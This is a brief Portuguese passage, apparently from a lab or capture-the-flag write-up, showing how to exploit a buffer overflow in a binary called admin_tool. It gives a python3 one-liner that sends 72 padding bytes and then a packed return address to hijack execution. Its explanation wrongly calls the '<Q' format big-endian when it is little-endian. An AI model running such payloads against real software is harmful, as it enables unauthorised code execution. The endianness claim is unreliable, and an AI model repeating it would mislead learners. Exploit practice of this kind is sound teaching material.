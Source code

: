 ## Utilizando o python para explorar o buffer overflow

python3 -c "import struct; addr = struct.pack('<Q', 0x0000000000401236); offset = b'A' * 72; payload = offset + addr; print(payload.decode('latin-1'))" | ./admin_tool

0x0000000000401236

o parâmetro '<Q' define que é um endereço big endian e que vai ser passado um valor numérico para empacotar